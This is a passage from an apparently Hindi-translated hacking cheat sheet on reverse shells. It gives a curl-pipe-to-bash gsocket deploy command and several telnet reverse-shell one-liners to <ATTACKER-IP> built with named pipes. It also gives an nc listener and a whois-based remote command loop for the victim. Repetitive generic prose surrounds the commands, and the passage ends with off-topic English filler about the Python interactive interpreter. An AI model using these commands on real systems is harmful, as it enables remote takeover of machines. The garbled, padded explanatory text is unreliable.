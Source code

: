 इसे [https://www.gsocket.io/deploy/](https://www.gsocket.io/deploy/) पर जांचें।
```bash
bash -c "$(curl -fsSL gsocket.io/x)"
```
## टेलनेट

Telnet एक नेटवर्क प्रोटोकॉल है जिसका उपयोग रिमोट मशीनों पर दूरस्थ लॉगिन करने के लिए किया जाता है। यह TCP/IP प्रोटोकॉल का एक हिस्सा है और इंटरनेट पर उपयोग होता है। टेलनेट का उपयोग करके, आप रिमोट मशीन पर कमांड लाइन इंटरफेस के माध्यम से कार्य कर सकते हैं।

टेलनेट का उपयोग करने के लिए, आपको टेलनेट क्लाइंट सॉफ़्टवेयर की आवश्यकता होती है जो आपको रिमोट मशीन से कनेक्ट करने में मदद करता है। आप टेलनेट क्लाइंट का उपयोग करके रिमोट मशीन पर लॉगिन कर सकते हैं और उस पर कमांड चला सकते हैं।

टेलनेट का उपयोग करने के लिए, आपको रिमोट मशीन का IP पता और टेलनेट सर्वर का पोर्ट नंबर जानना होगा। आप टेलनेट क्लाइंट के माध्यम से इस जानकारी को दर्ज करके रिमोट मशीन से कनेक्ट हो सकते हैं।

टेलनेट का उपयोग करने के लिए, आपको टेलनेट क्लाइंट के माध्यम से रिमोट मशीन पर लॉगिन करने के लिए उपयोगकर्ता नाम और पासवर्ड की आवश्यकता हो सकती है। इसके बाद, आप रिमोट मशीन पर कमांड चला सकते हैं और उसकी व्यवस्था कर सकते हैं।

टेलनेट का उपयोग करने के द्वारा, आप रिमोट मशीन पर दूरस्थ शेल का उपयोग कर सकते हैं और उसे कंप्यूटर नेटवर्क में अनुकरण कर सकते हैं। यह एक प्रभावी तकनीक है जो आपको रिमोट मशीन पर नियंत्रण प्राप्त करने में मदद कर सकती है।
```bash
telnet <ATTACKER-IP> <PORT> | /bin/sh #Blind
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet <ATTACKER-IP> <PORT> >/tmp/f
telnet <ATTACKER-IP> <PORT> | /bin/bash | telnet <ATTACKER-IP> <PORT>
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | telnet <ATTACKER-IP> <PORT> 1>/tmp/bkpipe
```
अटैकर
```bash
while true; do nc -l <port>; done
```
इस कमांड को भेजने के लिए इसे लिखें, एंटर दबाएं और CTRL+D दबाएं (STDIN को रोकने के लिए)

**पीड़ित**
```bash
export X=Connected; while true; do X=`eval $(whois -h <IP> -p <Port> "Output: $X")`; sleep 1; done
```
## पायथन

Python is a versatile and powerful programming language that is widely used in the field of hacking. It is known for its simplicity and readability, making it a popular choice among hackers.

### Python Shells

Python shells are interactive environments where you can write and execute Python code. They provide a convenient way to test and debug your code without the need for a separate text editor or IDE.

#### Standard Python Shell

The standard Python shell, also known as the Python interactive interpreter, is a basic shell that comes pre-installed with Python. It allows you to execute Python code line by line and see the results immediately.

